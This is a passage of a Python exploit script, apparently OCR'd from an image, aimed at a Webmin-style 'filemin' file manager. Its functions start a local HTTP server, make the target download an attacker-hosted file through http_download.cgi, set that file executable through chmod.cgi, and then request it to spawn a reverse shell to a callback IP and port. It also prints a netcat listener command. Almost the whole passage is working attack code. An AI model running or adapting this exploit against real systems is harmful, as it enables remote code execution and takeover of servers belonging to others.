         except requests.Timeout as e:
            print(TRED + f"[-] Target: {self.target} is not responding, Connection timed out", ENDC)
            exit()

    def pyhttp_server(self):
        print(f'[+] Attempt to host http.server on {self.pyhttp_port}\n')
        os.system(f'(setsid $(which python3) -m http.server {self.pyhttp_port} 0>&1 & ) ') # add 2>/dev/null for clean up
        print('[+] Sleep 3 second to ensure http server is up!')
        time.sleep(3) # Sleep for 3 seconds to ensure http server is up!

    def download_remote_url(self):
        download_url = self.target + "/extensions/file-manager/http_download.cgi?module=filemin"
        headers = {
                    "Accept": "application/json, text/javascript, */*; q=0.01",
                    "Accept-Encoding": "gzip, deflate",
                    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                    "X-Requested-With": "XMLHttpRequest",
                    "Referer": self.target + "/filemin/?xnavigation=1"
        }

        data = {
                'link': "http://" + self.py3http_server + "/" + self.fname,
                'username': '',
                'password': '',
                'path': self.upload_path
        }

        r = self.s.post(download_url, data=data, headers=headers, verify=False, allow_redirects=True)
        print(f"\n[+] Fetching {self.fname} from http.server {self.py3http_server}")

    def modify_permission(self):
        modify_perm_url = self.target + "/extensions/file-manager/chmod.cgi?module=filemin&page=1&paginate=30"
        headers = { "Referer": self.target + "/filemin/?xnavigation=1" }
        data = { "name": self.fname, "perms": "0755", "applyto": "1", "path": self.upload_path }
      
        r = self.s.post(modify_perm_url, data=data, headers=headers, verify=False, allow_redirects=True)
        print(f"[+] Modifying permission of {self.fname} to 0755")

    def exec_revshell(self):
        url = self.target + '/' + self.fname
        try:
            r = self.s.get(url, verify=False, allow_redirects=True, timeout=3)
        except requests.Timeout as e: # check target whether make response in 3s, then it indicates shell has been spawned!
            print(TGREEN + f"\n[+] Success: shell spawned to {self.callback_ip} via port {self.callback_port} - XD", ENDC)
            print("[+] Shell location: " + url)
        else:
            print(TRED + f"\n[-] Please setup listener first and try again with: nc -lvp {self.callback_port}", ENDC)

    def do_cleanup(self):
        print(TCYAN + '\n[+] Cleaning up ')
        print(f'[+] Killing: http.server on port {self.pyhttp_port}')
        os.system(f'kill -9 $(lsof -t -i:{self.pyhttp_port})')
        exit()
